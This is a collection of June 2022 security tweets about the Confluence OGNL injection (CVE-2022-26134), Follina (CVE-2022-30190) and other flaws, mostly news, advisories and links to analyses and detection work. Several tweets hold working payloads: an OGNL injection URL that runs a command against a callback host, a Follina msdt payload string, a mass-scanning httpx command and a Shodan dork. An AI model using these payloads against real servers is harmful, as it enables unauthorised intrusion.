* https://www.rapid7.com/blog/post/2022/06/02/active-exploitation-of-confluence-cve-2022-26134/

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>38</code></td>
<td>Favorites: <code>106</code></td>
</tr></table>

---

# ptswarm
**https://twitter.com/ptswarm/status/1533805332409069568 _at 2022-06-06 13:37:42_**
<blockquote>
🦥 Everyone learned to run pip install colorama to exploit Atlassian Confluence RCE (CVE-2022-26134), so let’s see how the vulnerability works under the hood.

Here we show our simplified payload which demonstrates a workflow inside the vulnerable code ⤵️ https://t.co/szijIM84hd
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>93</code></td>
<td>Favorites: <code>268</code></td>
</tr></table>

---

# ollieatnccgroup
**https://twitter.com/ollieatnccgroup/status/1533765228072148994 _at 2022-06-06 10:58:21_**
<blockquote>
/r/blueteamsec are now running one of our now (infamous?) threads on CVE-2022-26134 aka the Confluence Zero Day - with technical analysis, exploits, active exploitation updates, detections and more.. 

https://t.co/dHEkcymrkf
</blockquote>

* https://www.reddit.com/r/blueteamsec/comments/v56qin/cve202226134_confluence_zero_day_remote_code/

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>10</code></td>
<td>Favorites: <code>35</code></td>
</tr></table>

---

# xAmmar09
**https://twitter.com/xAmmar09/status/1533609878547218432 _at 2022-06-06 00:41:02_**
<blockquote>
Researchers have uncovered a critical unpatched RCE #vulnerability (CVE-2022-26134) affecting #Atlassian Confluence Server and Data Center products that is being actively exploited by hackers.

CVE-2022-26134: Atlassian Confluence RCE 
Tool :
https://t.co/Z5qdHvhbqC
Poc:
</blockquote>

* https://github.com/Nwqda/CVE-2022-26134

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>0</code></td>
<td>Favorites: <code>13</code></td>
</tr></table>

---

# PadsalaTushal
**https://twitter.com/PadsalaTushal/status/1533477798102573056 _at 2022-06-05 15:56:12_**
<blockquote>
CVE-2022-26134: Atlassian Confluence RCE 
Shodan Dork: 
http.component:"Confluence"
Tool :
https://t.co/dzfJvoEdby
Poc:

#bugbounty #bugbountytips  #infosec #bugbountytips 
#CVE #atlassian #RCE https://t.co/dYkG1CrdSS
</blockquote>

* https://github.com/Nwqda/CVE-2022-26134

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>10</code></td>
<td>Favorites: <code>18</code></td>
</tr></table>

---

# 0dayCTF
**https://twitter.com/0dayCTF/status/1533468577080262657 _at 2022-06-05 15:19:33_**
<blockquote>
NotionTerm - Embedded Reverse Shell in Notion
-
Encrypted and authenticated remote shell in a page. Great for a PoC / Demonstration of RCE.
-
Repo: https://t.co/OQDJl35SJq
-
Creator: Ariary
-
#cybersecuritytips #infosec #CTF #bugbountytips https://t.co/5thWVFoChR
</blockquote>

* https://github.com/ariary/notionterm

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>21</code></td>
<td>Favorites: <code>87</code></td>
</tr></table>

---

# Lulztigre
**https://twitter.com/Lulztigre/status/1533466221085081602 _at 2022-06-05 15:10:12_**
<blockquote>
CVE-2022-26134 :  Atlassian Confluence Sever ver 7.18.1 RCE PoC via OGNL injection vulnerability

https://t.co/Jvij3o2wLz https://t.co/N42pWSF8HN
</blockquote>

* https://github.com/Nwqda/CVE-2022-26134

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>1</code></td>
<td>Favorites: <code>2</code></td>
</tr></table>

---

# Andrew___Morris
**https://twitter.com/Andrew___Morris/status/1533139425122713600 _at 2022-06-04 17:31:37_**
<blockquote>
Widespread Atlassian Confluence CVE-2022-26134 exploitation, specifically that is *confirmed functional*, has just started. 23 unique IPs so far.

-Tags available to all @GreyNoiseIO users now
- Create an account to deploy a dynamic block list to block it

https://t.co/dbXTw2LWY6 https://t.co/xXldngWdPH
</blockquote>

* https://viz.greynoise.io/query/?gnql=tags%3A%22Atlassian%20Confluence%20Server%20CVE-2022-26134%20OGNL%20Injection%20Attempt%22

<table><tr>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>8</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>84</code></td>
<td>Favorites: <code>168</code></td>
</tr></table>

---

# S0ufi4n3
**https://twitter.com/S0ufi4n3/status/1533051998077067267 _at 2022-06-04 11:44:13_**
<blockquote>
Confluence RCE (CVE-2022-26134)
Poc:

{{BaseURL}}/%24%7B%40java.lang.Runtime%40getRuntime%28%29.exec%28%22nslookup%20{{interactsh-url}}%22%29%7D/
</blockquote>

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>47</code></td>
<td>Favorites: <code>169</code></td>
</tr></table>

---

# h4x0r_dz
**https://twitter.com/h4x0r_dz/status/1533025788672593920 _at 2022-06-04 10:00:04_**
<blockquote>
CVE-2022-26134  Confluence RCE exploit automation :

httpx -l list.txt  -paths path.txt  -match-string "gid="
</blockquote>

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>5</code></td>
<td>Retweets: <code>101</code></td>
<td>Favorites: <code>354</code></td>
</tr></table>

---

# sheikhrishad0
**https://twitter.com/sheikhrishad0/status/1532966090841915392 _at 2022-06-04 06:02:51_**
<blockquote>
CVE-2022-26134: Atlassian Confluence RCE PoC

#BugBounty https://t.co/7UFw7TkwME
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>10</code></td>
<td>Retweets: <code>81</code></td>
<td>Favorites: <code>397</code></td>
</tr></table>

---

# momika233
**https://twitter.com/momika233/status/1532941237405499392 _at 2022-06-04 04:24:06_**
<blockquote>
Atlassian Confluence (CVE-2022-26134) - Unauthenticated Remote Code Execution (RCE)
URL：https://t.co/OXIOSvXHL4
</blockquote>

* https://github.com/Nwqda/CVE-2022-26134

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>63</code></td>
<td>Favorites: <code>198</code></td>
</tr></table>

---

# httpvoid0x2f
**https://twitter.com/httpvoid0x2f/status/1532924231054499840 _at 2022-06-04 03:16:31_**
<blockquote>
Thread - Confluence Blind OGNL Injection analysis from our limited java knowledge. From vulnerable sink to becoming admin of the confluence instance. #CVE-2022-26134. Tested on latest vulnerable version 7.18.0.
</blockquote>

<table><tr>
<td>Quotes: <code>8</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>152</code></td>
<td>Favorites: <code>475</code></td>
</tr></table>

---

# phithon_xg
**https://twitter.com/phithon_xg/status/1532887542722269184 _at 2022-06-04 00:50:44_**
<blockquote>
Very simple POC for Atlassian Confluence Pre-Auth OGNL Injection &amp;&amp; RCE (CVE-2022-26134)
Setup a pre-built environment to test it in 5 seconds: https://t.co/oH6GJ1mel1
Why 5 minutes not 10 seconds? Because you should apply a trial license from Atlassian😂#vulhub https://t.co/CS1EVOHbKg
</blockquote>

* https://github.com/vulhub/vulhub/tree/master/confluence/CVE-2022-26134

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>8</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>197</code></td>
<td>Favorites: <code>568</code></td>
</tr></table>

---

# bad_packets
**https://twitter.com/bad_packets/status/1532844850298597376 _at 2022-06-03 22:01:05_**
<blockquote>
⚠️ CVE-2022-26134 event detected ⚠️

Source IP:
193.106.191.48 (🇷🇺)

Target:
Atlassian Confluence servers vulnerable to unauthenticated remote code execution (https://t.co/mZ6pPfOBws)

Last seen:
2022-06-03T21:32:10Z
#threatintel
</blockquote>

* https://confluence.atlassian.com/doc/confluence-security-advisory-2022-06-02-1130377146.html

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>5</code></td>
<td>Retweets: <code>42</code></td>
<td>Favorites: <code>98</code></td>
</tr></table>

---

# Naqwada_
**https://twitter.com/Naqwada_/status/1532840017894469632 _at 2022-06-03 21:41:53_**
<blockquote>
CVE-2022-26134 - Script PoC that exploit the remote code execution vulnerability affecting Atlassian Confluence products 7.18.1 and under. This vulnerability is exploitable without requiring authentication!

#Confluence  #Atlassian #infosec #0day #PoC
https://t.co/HUylvXQ6i0
</blockquote>

* https://github.com/Nwqda/CVE-2022-26134

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>5</code></td>
<td>Retweets: <code>44</code></td>
<td>Favorites: <code>67</code></td>
</tr></table>

---

# USCERT_gov
**https://twitter.com/USCERT_gov/status/1532823934156034048 _at 2022-06-03 20:37:59_**
<blockquote>
🚨 Atlassian has released new Confluence Server and Data Center versions to address RCE vulnerability CVE-2022-26134. Update immediately! Read more at https://t.co/wxbzPoWfqi. #Cybersecurity #InfoSec https://t.co/frTQpH4Rax
</blockquote>

* http://go.usa.gov/xJWGw

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>5</code></td>
<td>Retweets: <code>63</code></td>
<td>Favorites: <code>77</code></td>
</tr></table>

---

# naglinagli
**https://twitter.com/naglinagli/status/1532820345018785792 _at 2022-06-03 20:23:43_**
<blockquote>
None-Intrusive @pdnuclei  template for the Confluence RCE vulnerability CVE-2022-26134 is available

https://t.co/BGJTz82dmu

Confirmation of hits by DNS callbacks with nslookup to interactsh servers. https://t.co/e42OaNI6mT
</blockquote>

* https://github.com/projectdiscovery/nuclei-templates/pull/4527

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>72</code></td>
<td>Favorites: <code>294</code></td>
</tr></table>

---

# naglinagli
**https://twitter.com/naglinagli/status/1532818278061641731 _at 2022-06-03 20:15:30_**
<blockquote>
I wonder if releasing the Confluence RCE patch for CVE-2022-26134 within the weekend was a good idea 🤔 instead of 1 APT exploiting it in the wild now everyone got a working PoC and already mass exploit it 🤡

#BugBounty #infosec
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>5</code></td>
<td>Favorites: <code>75</code></td>
</tr></table>

---

# Junior_Baines
**https://twitter.com/Junior_Baines/status/1532808712070512647 _at 2022-06-03 19:37:29_**
<blockquote>
Our technical analysis and curl based PoC for Confluence CVE-2022-26134 can be found here: https://t.co/LUc4286Cj4
</blockquote>

* https://www.rapid7.com/blog/post/2022/06/02/active-exploitation-of-confluence-cve-2022-26134/

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>94</code></td>
<td>Favorites: <code>208</code></td>
</tr></table>

---

# 1ZRR4H
**https://twitter.com/1ZRR4H/status/1532802996362526720 _at 2022-06-03 19:14:47_**
<blockquote>
It looks like CVE-2022-26134 (Unauthenticated RCE via OGNL template injection) uses the same vector as CVE-2021-26084.

Here is an attack via CVE-2021-26084 that I was checking on 2022-05-16 that allowed to create a webshell in ./confluence/testAnt.jsp

Just for comparison 🤔 https://t.co/mER1UCe5Ke
</blockquote>

<table><tr>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>29</code></td>
<td>Favorites: <code>68</code></td>
</tr></table>

---

# wvuuuuuuuuuuuuu
**https://twitter.com/wvuuuuuuuuuuuuu/status/1532802468068962304 _at 2022-06-03 19:12:41_**
<blockquote>
There is an RCE PoC for CVE-2022-26134 in this blog post. I haven't tested it yet.
</blockquote>

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>20</code></td>
<td>Favorites: <code>62</code></td>
</tr></table>

---

# catc0n
**https://twitter.com/catc0n/status/1532800640371531777 _at 2022-06-03 19:05:25_**
<blockquote>
The Rapid7 team has a root cause analysis of Confluence CVE-2022-26134 out now with thanks to @Junior_Baines. This is an emergency mitigation situation. https://t.co/2G9H6OmJA6
</blockquote>

* https://www.rapid7.com/blog/post/2022/06/02/active-exploitation-of-confluence-cve-2022-26134/

<table><tr>
<td>Quotes: <code>10</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>118</code></td>
<td>Favorites: <code>195</code></td>
</tr></table>

---

# mkolsek
**https://twitter.com/mkolsek/status/1532704505577541637 _at 2022-06-03 12:43:25_**
<blockquote>
This is real. We've confirmed it to work on fully patched Windows. The attack scenario is similar to CVE-2020-1300: get the user to open a CAB file, and a malicious executable is silently copied to their StartUp folder, to be launched the next time they login.
</blockquote>

<table><tr>
<td>Quotes: <code>6</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>82</code></td>
<td>Favorites: <code>219</code></td>
</tr></table>

---

# NUYTSTECH
**https://twitter.com/NUYTSTECH/status/1532684533245415425 _at 2022-06-03 11:24:03_**
<blockquote>
CVE-2022-31338: Online Ordering System 2.3.2 is vulnerable to SQL Injection via /ordering/admin/user/index.php?view=edit&amp;id=. Date published : 2022-05-31 https://t.co/04U8W01ZED https://t.co/VddcJ44nUN
</blockquote>

* https://github.com/k0xx11/bug_report/blob/main/vendors/janobe/online-ordering-system/SQLi-9.md
* http://dlvr.it/SRYJS6

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>2</code></td>
<td>Favorites: <code>1</code></td>
</tr></table>

---

# hack_git
**https://twitter.com/hack_git/status/1532681191098310657 _at 2022-06-03 11:10:46_**
<blockquote>
CVE-2022-30190
 https://t.co/1PbMtN2HUH

#cve

GitHub
rayorole/CVE-2022-30190
CVE-2022-30190 or "Follina" 0day proof of concept. Contribute to rayorole/CVE-2022-30190 development by creating an account on GitHub.

https://t.co/HnqVwCgGUM https://t.co/EnJBKCJXdV
</blockquote>

* https://github.com/rayorole/CVE-2022-30190
* https://t.me/hackgit/4449

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>0</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# CyberWarship
**https://twitter.com/CyberWarship/status/1532623631427194880 _at 2022-06-03 07:22:03_**
<blockquote>
"KrbRelayUp - a universal no-fix local privilege escalation in windows domain environments where LDAP signing is not enforced (the default settings)"

#pentest #redteam #infosec
https://t.co/u6dUxHBLIs https://t.co/acWa0qwH43
</blockquote>

* https://github.com/Dec0ne/KrbRelayUp

<table><tr>
<td></td>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>13</code></td>
<td>Favorites: <code>35</code></td>
</tr></table>

---

# TheHackersNews
**https://twitter.com/TheHackersNews/status/1532568914151976961 _at 2022-06-03 03:44:37_**
<blockquote>
Researchers have uncovered a critical unpatched RCE #vulnerability (CVE-2022-26134) affecting #Atlassian Confluence Server and Data Center products that is being actively exploited by hackers.

Read details: https://t.co/DKvtuJIUr4

#infosec #cybersecurity #hacking
</blockquote>

* https://thehackernews.com/2022/06/hackers-exploiting-unpatched-critical.html

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>101</code></td>
<td>Favorites: <code>134</code></td>
</tr></table>

---

# Recon_InfoSec
**https://twitter.com/Recon_InfoSec/status/1532526015188180997 _at 2022-06-03 00:54:09_**
<blockquote>
For teams dealing with CVE-2022-26134, see this blog post which analyzes a previous Confluence RCE (CVE-2019-3396). It may provide insight into how to approach a breach involving Confluence.

https://t.co/A9dKJHktyp
</blockquote>

* https://blog.reconinfosec.com/analysis-of-exploitation-of-cve-2019-3396

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>13</code></td>
<td>Favorites: <code>33</code></td>
</tr></table>

---

# USCERT_gov
**https://twitter.com/USCERT_gov/status/1532511428451631108 _at 2022-06-02 23:56:11_**
<blockquote>
🚨 A RCE Vulnerability (CVE-2022-26134) in Atlassian's Confluence Server and Data Center is being actively exploited. ⛔ Block all internet traffic to and from those devices until an update is available and applied. @CISAgov's KEV now includes this vul: https://t.co/9vliOlJpmd https://t.co/YNltqOCDs7
</blockquote>

* https://go.usa.gov/xJDf2

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>16</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>76</code></td>
<td>Favorites: <code>97</code></td>
</tr></table>

---

# wvuuuuuuuuuuuuu
**https://twitter.com/wvuuuuuuuuuuuuu/status/1532498264242769925 _at 2022-06-02 23:03:53_**
<blockquote>
"When initially analyzing the exploit, Volexity noted it looked similar to previous vulnerabilities that have also been exploited in order to gain remote code execution."

"It should also be noted that CVE-2022-26134 appears to be another command injection vulnerability."

👀
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>6</code></td>
<td>Favorites: <code>36</code></td>
</tr></table>

---

# briankrebs
**https://twitter.com/briankrebs/status/1532492461939085329 _at 2022-06-02 22:40:49_**
<blockquote>
Atlassian is warning about a zero-day in Confluence (CVE-2022-26134). This is a pre-auth, remote code execution bug. No patch yet. Atlassian credits @Volexity which reported it after responding to different victims who got shells/backdoors via this flaw. https://t.co/3AgnpQ1fB3
</blockquote>

* https://confluence.atlassian.com/doc/confluence-security-advisory-2022-06-02-1130377146.html

<table><tr>
<td>Quotes: <code>16</code></td>
<td>Replies: <code>7</code></td>
<td>Retweets: <code>122</code></td>
<td>Favorites: <code>227</code></td>
</tr></table>

---

# HackingLZ
**https://twitter.com/HackingLZ/status/1532480905335345152 _at 2022-06-02 21:54:54_**
<blockquote>
Whomp whomp “Confluence Security Advisory 2022-06-02
Confluence Server and Data Center - CVE-2022-26134 - Critical severity unauthenticated remote code execution vulnerability” https://t.co/LdcjCdNVSa
</blockquote>

<table><tr>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>6</code></td>
<td>Replies: <code>6</code></td>
<td>Retweets: <code>31</code></td>
<td>Favorites: <code>107</code></td>
</tr></table>

---

# thezdi
**https://twitter.com/thezdi/status/1532380491311108096 _at 2022-06-02 15:15:54_**
<blockquote>
Is exploiting a null pointer deref for LPE just a pipe dream? @izobashi shows the process discovering a couple of #Bitdefender AV bugs (CVE-2021-4198/CVE-2021-4199). The exploit leads to LPE by exploiting a link following issue. https://t.co/YH9f35RU6W
</blockquote>

* https://www.zerodayinitiative.com/blog/2022/6/1/is-exploiting-a-null-pointer-deref-for-lpe-just-a-pipe-dream

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>39</code></td>
<td>Favorites: <code>114</code></td>
</tr></table>

---

# PentestingN
**https://twitter.com/PentestingN/status/1532319569053892609 _at 2022-06-02 11:13:49_**
<blockquote>
CVE-2022-22954 PoC
 VMware Workspace ONE Access and Identity Manager RCE via SSTI.

CVE-2022-22954 - PoC SSTI

https://t.co/vYHtdsLczs

#cve #poc

https://t.co/pU5DhOLwAh https://t.co/iNr4vf6iPE
</blockquote>

* https://github.com/Chocapikk/CVE-2022-22954
* https://t.me/PentestingNews/23964

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>0</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# oss_security
**https://twitter.com/oss_security/status/1532315596653596672 _at 2022-06-02 10:58:01_**
<blockquote>
CVE-2022-1972: out-of-bound write in Linux netfilter subsystem leads to local privilege escalation: Posted by 张子明(明程) on Jun 02Hello,
 
 An out-of-bound write vulnerability was identified within the
 netfilter subsystem
 which can be exploited to… https://t.co/lLqUCOykeo
</blockquote>

* http://dlvr.it/SRV16J

<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>21</code></td>
<td>Favorites: <code>79</code></td>
</tr></table>

---

# danusminimus
**https://twitter.com/danusminimus/status/1532306315367829505 _at 2022-06-02 10:21:09_**
<blockquote>
Recently @chvancooten approved my PR for his #Follina PoC script. You can now automatically generate RTF files weaponized with #Follina exploit using - 
https://t.co/sqetryK1bB

Cheers!
</blockquote>

* https://github.com/chvancooten/follina.py

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>32</code></td>
<td>Favorites: <code>99</code></td>
</tr></table>

---

# hack_git
**https://twitter.com/hack_git/status/1532288463596298240 _at 2022-06-02 09:10:12_**
<blockquote>
CVE-2022-22954 PoC
 VMware Workspace ONE Access and Identity Manager RCE via SSTI.

CVE-2022-22954 - PoC SSTI

https://t.co/EWKftvlKQj

#cve #poc

https://t.co/JFRVmrtDmv https://t.co/I6Rn2Hw6Fl
</blockquote>

* https://github.com/Chocapikk/CVE-2022-22954
* https://t.me/hackgit/4432

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>2</code></td>
<td>Favorites: <code>1</code></td>
</tr></table>

---

# wugeej
**https://twitter.com/wugeej/status/1532189210425577472 _at 2022-06-02 02:35:49_**
<blockquote>
0-day [CVE-2022-30190] MS Offic RCE aka msdt follina

Target = "http://&lt;payload_server&gt;/payload.html!"
TargetMode = "External"

IT_RebrowseForFile=cal?c IT_SelectProgram=NotListed IT_BrowseForFile=h$(IEX('calc.exe'))i/../../../../../../Windows/System32

https://t.co/Bci6gVBWJn https://t.co/hc2TcRoOQt
</blockquote>

* https://github.com/PwnC00re/PoC-CVE-2022-30190?fbclid=IwAR07oJZ7iL0ZyuAXNOflJyttKodx7Tba9Zmp_38ulPpZHpi6GgCc4eYMxZg

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>140</code></td>
<td>Favorites: <code>345</code></td>
</tr></table>

---

# TCMSecurity
**https://twitter.com/TCMSecurity/status/1532051776651788293 _at 2022-06-01 17:29:42_**
<blockquote>
Let's learn more about the newest exploit going around, Follina RCE - CVE-2022-30190.  Joe Helle takes us through and shows us a couple ways this exploitation works and what you can do to remedy this current issue.

https://t.co/uvIHdUi8QP

#follina #cve #exploitation https://t.co/uXciZocib3
</blockquote>

* https://tcm-sec.com/follina-rce-exploitation-cve-2022-30190/

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>46</code></td>
<td>Favorites: <code>148</code></td>
</tr></table>

---

# SonarSource
**https://twitter.com/SonarSource/status/1532019810619559939 _at 2022-06-01 15:22:41_**
<blockquote>
⚠️ Horde Webmail is affected by an unpatched code vulnerability (CVE-2022-30287) that allows attackers to take over the mail server when a malicious email is opened. Learn more from our security research:

https://t.co/bgpUsljVR3

#appsec #security #vulnerability
</blockquote>

* https://blog.sonarsource.com/horde-webmail-rce-via-email/

<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>30</code></td>
<td>Favorites: <code>74</code></td>
</tr></table>

---

# TheZDIBugs
**https://twitter.com/TheZDIBugs/status/1532010387062894592 _at 2022-06-01 14:45:14_**
<blockquote>
[ZDI-22-806|CVE-2022-23088] FreeBSD 802.11 Network Subsystem Heap-based Buffer Overflow Remote Code Execution Vulnerability (CVSS 8.3) https://t.co/llalKSSlaZ
</blockquote>

* https://www.zerodayinitiative.com/advisories/ZDI-22-806/

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>16</code></td>
<td>Favorites: <code>33</code></td>
</tr></table>

---

# 0patch
**https://twitter.com/0patch/status/1532006627225784323 _at 2022-06-01 14:30:17_**
<blockquote>
Free Micropatches For "Follina" Microsoft Diagnostic Tool Remote Code Execution 0day (CVE-2022-30190) #Follina
https://t.co/lyNPrgdObJ https://t.co/6UABGE6qor
</blockquote>

* https://blog.0patch.com/2022/06/free-micropatches-for-follina-microsoft.html

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>5</code></td>
<td>Retweets: <code>37</code></td>
<td>Favorites: <code>64</code></td>
</tr></table>

---

# petruknisme
**https://twitter.com/petruknisme/status/1531931250503536640 _at 2022-06-01 09:30:46_**
<blockquote>
I created PoC tool with interactive shell for exploiting #CVE-2022-1388 F5 BIG-IP iControl REST Auth Bypass RCE written in #Rust with #PoC Lab. 

Tool: https://t.co/ytCgvUjgTl
Lab setup for PoC: https://t.co/vZ9xhjR8xx

Btw, I'm using @gitpod as my daily development env. https://t.co/jXgGOdyUcq
</blockquote>

* https://github.com/aancw/CVE-2022-1388-rs
* https://github.com/aancw/CVE-2022-1388-rs/blob/main/LAB-PoC/README.md

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>1</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# campuscodi
**https://twitter.com/campuscodi/status/1531919227539570690 _at 2022-06-01 08:43:00_**
<blockquote>
Trend Micro has a report out on the recent attacks targeting CVE-2022-29464, a remote code execution vulnerability in WSO2 servers

https://t.co/DYFAGxkiQn https://t.co/EQotRJbkyu
</blockquote>

* https://www.trendmicro.com/en_us/research/22/e/patch-your-wso2-cve-2022-29464-exploited-to-install-linux-compatible-cobalt-strike-beacons-other-malware.html

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>41</code></td>
<td>Favorites: <code>86</code></td>
</tr></table>

---

# hack_git
**https://twitter.com/hack_git/status/1531895959394861057 _at 2022-06-01 07:10:32_**
<blockquote>
PoC-CVE-2022-30190
 CVE 0-day MS Offic RCE aka msdt follina

https://t.co/2JZTQRo27P

#cve #poc

GitHub
GitHub - PwnC00re/PoC-CVE-2022-30190
Contribute to PwnC00re/PoC-CVE-2022-30190 development by creating an account on GitHub.

https://t.co/pFa42ry5Fr https://t.co/LYOzEc4SQr
</blockquote>

* https://github.com/PwnC00re/PoC-CVE-2022-30190
* https://t.me/hackgit/4419

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>1</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# cyb3rops
**https://twitter.com/cyb3rops/status/1531884486341840897 _at 2022-06-01 06:24:57_**
<blockquote>
1/ The exploitation of CVE-2022-30190 #Follina isn’t hard to detect

In fact, proc creation logs with parent info are enough
https://t.co/fH8Ww1f6JA

It also isn’t hard to apply the workaround via GPO

The problem with this 0day is that 99% of the possible victims …
</blockquote>

* https://twitter.com/cyb3rops/status/1531154093451902978

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>41</code></td>
<td>Favorites: <code>126</code></td>
</tr></table>

---

# seguridadyredes
**https://twitter.com/seguridadyredes/status/1531879512132263936 _at 2022-06-01 06:05:11_**
<blockquote>
New Microsoft Office Attack Vector via "ms-msdt" Protocol Scheme (CVE-2022-30190).

https://t.co/HIdikZTFXJ

CVE-2022-30190
https://t.co/AVlUUp1S3l

Rapid Response: Microsoft Office RCE - “#Follina” #MSDT Attack.

https://t.co/Y7PZqIzfAG
</blockquote>

* https://isc.sans.edu/forums/diary/New+Microsoft+Office+Attack+Vector+via+msmsdt+Protocol+Scheme+CVE202230190/28694
* https://github.com/bytecaps/CVE-2022-30190
* https://www.huntress.com/blog/microsoft-office-remote-code-execution-follina-msdt-bug

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>1</code></td>
<td>Favorites: <code>2</code></td>
</tr></table>

---

